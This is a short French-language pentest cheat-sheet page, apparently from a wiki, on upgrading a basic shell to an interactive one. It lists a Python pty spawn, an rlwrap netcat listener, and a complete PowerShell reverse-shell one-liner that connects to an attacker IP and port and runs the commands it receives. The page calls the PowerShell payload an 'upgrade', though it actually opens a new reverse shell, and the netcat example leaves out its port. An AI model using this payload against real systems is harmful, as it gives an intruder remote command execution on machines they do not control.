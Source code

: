 ```yaml
---
description: Upgrade de Shell - Rendre le Shell Interactif
---
```


# Upgrade de Shell

<mark style="color:yellow;">**Description :**</mark>&#x20;

L'upgrade de shell est un processus permettant de transformer un shell de base en un shell interactif, offrant ainsi une expérience plus fluide et plus puissante pour l'exécution de commandes et l'interaction avec le système cible.

<mark style="color:yellow;">**Exemples d'utilisation :**</mark>

1. Upgrader un shell Bash en shell interactif : `python -c 'import pty; pty.spawn("/bin/bash")'`
2. Upgrader un shell Netcat en shell interactif (Linux) : `rlwrap nc -lvnp`
3. Upgrader un shell PowerShell en shell interactif (Windows) : `$client = New-Object System.Net.Sockets.TCPClient("<attaquant_ip>", <attaquant_port>) $stream = $client.GetStream() [byte[]]$bytes = 0..65535|%{0} while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i) $sendback = (iex $data 2>&1 | Out-String ) $sendback2 = $sendback + "PS " + (pwd).Path + "> " $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2) $stream.Write($sendbyte,0,$sendbyte.Length) $stream.Flush() } $client.Close()`

<mark style="color:yellow;">**Options Principales :**</mark>

* Upgrader un shell Bash en shell interactif :
  * Utiliser la bibliothèque Python `pty` pour améliorer le shell en interactif.
* Upgrader un shell Netcat en shell interactif (Linux) :
  * Utiliser `rlwrap` pour ajouter la fonctionnalité d'édition de ligne à Netcat.
  * Remplacer `<port>` par le port écouté par Netcat.
* Upgrader un shell PowerShell en shell interactif (Windows) :
  * Utiliser une connexion TCP pour établir une communication bidirectionnelle.
  * Remplacer `<attaquant_ip>` par l'adresse IP de l'attaquant et `<attaquant_port>` par le port de l'attaquant.
